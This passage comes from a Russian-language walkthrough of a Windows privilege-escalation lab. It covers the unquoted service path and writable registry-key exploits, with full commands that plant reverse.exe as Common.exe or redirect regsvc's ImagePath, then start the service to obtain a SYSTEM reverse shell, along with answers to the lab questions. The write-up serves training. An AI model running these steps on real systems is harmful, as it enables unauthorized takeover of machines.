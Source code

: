 `sc qc unquotedsvc`

Используя accesschk.exe, обратите внимание, что группе BUILTIN\Users разрешено выполнять запись в каталог C:\Program Files\Unquoted Path Service\:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Скопируйте  созданный вами исполняемый файл reverse.exe в этот каталог и переименуйте его в Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

Запустите прослушиватель на Kali, а затем запустите службу, чтобы создать обратную оболочку, работающую с привилегиями SYSTEM:

`net start unquotedsvc`

### Ответьте на вопросы ниже
Каково BINARY_PATH_NAME службы unquotedsvc?
```commandline
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

## Задание 5
Запросите службу « regsvc»  и обратите внимание , что она работает с привилегиями SYSTEM (SERVICE_START_NAME) .

`sc qc regsvc`

Используя accesschk.exe, обратите внимание, что запись реестра для службы regsvc доступна для записи  группе «NT 
AUTHORITY\INTERACTIVE» (по сути, всем вошедшим в систему пользователям):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Перезапишите раздел реестра ImagePath, чтобы он указывал на созданный вами исполняемый файл reverse.exe:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

Запустите прослушиватель на Kali, а затем запустите службу, чтобы создать обратную оболочку, работающую с 
привилегиями SYSTEM: 

`net start regsvc`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```
## Задание 6
Запросите службу « filepermsvc»  и обратите внимание , что она работает с привилегиями SYSTEM (SERVICE_START_NAME) .
